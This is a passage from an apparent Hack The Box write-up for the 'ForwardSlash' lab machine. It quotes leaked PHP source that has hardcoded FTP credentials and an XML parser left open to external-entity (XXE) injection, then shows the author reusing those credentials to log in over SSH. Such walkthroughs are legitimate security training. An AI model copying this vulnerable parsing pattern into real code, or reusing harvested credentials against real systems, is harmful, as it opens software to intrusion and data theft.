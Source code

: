 ```php
		$ip = explode('/', $match[0])[2];
		echo $ip;
		error_log("Connecting");

		$conn_id = ftp_connect($ip) or die("Couldn't connect to $ip\n");

		error_log("Logging in");

		if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {

			error_log("Getting file");
			echo ftp_get_string($conn_id, "debug.txt");
		}

		exit;
	}

	libxml_disable_entity_loader (false);
	$xmlfile = $_GET["xml"];
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$api = simplexml_import_dom($dom);
	$req = $api->request;
	echo "-----output-----<br>\r\n";
	echo "$req";
}

function ftp_get_string($ftp, $filename) {
    $temp = fopen('php://temp', 'r+');
    if (@ftp_fget($ftp, $temp, $filename, FTP_BINARY, 0)) {
        rewind($temp);
        return stream_get_contents($temp);
    }
    else {
        return false;
    }
}

?>
```

Nice, the credentials for a ftp access are hardcoded.

```php
if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/'))
```

Maybe it works in ssh.

```bash
kali@kali:~$ ssh chiv@forwardslash.htb
chiv@forwardslash.htb's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul  5 11:22:22 UTC 2020

  System load:  0.0                Processes:            168
  Usage of /:   31.0% of 19.56GB   Users logged in:      0
  Memory usage: 13%                IP address for ens33: 10.10.10.183
  Swap usage:   0%

```